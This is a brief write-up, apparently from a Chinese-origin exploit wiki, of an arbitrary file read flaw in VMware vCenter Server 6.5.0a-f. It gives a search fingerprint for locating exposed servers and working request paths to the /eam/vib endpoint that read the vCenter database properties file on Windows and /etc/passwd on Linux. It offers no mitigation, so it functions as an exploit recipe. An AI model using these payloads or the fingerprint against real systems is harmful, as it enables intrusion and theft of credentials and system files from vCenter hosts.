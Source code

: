# VMware vCenter vid arbitrary file reading vulnerability

## Vulnerability Description
There is a vulnerability to read any file on the server by constructing a specific request.
## Vulnerability Impact
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;"> VMware vCenter Server 6.5.0a-f version</span>
## Network surveying and mapping
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;"> title="ID_VC_Welcome"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220311164942992.png)

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;"> Windows Host</span>

```
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;"> Linux host</span>

```
/eam/vib?id=/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220311164928273.png)
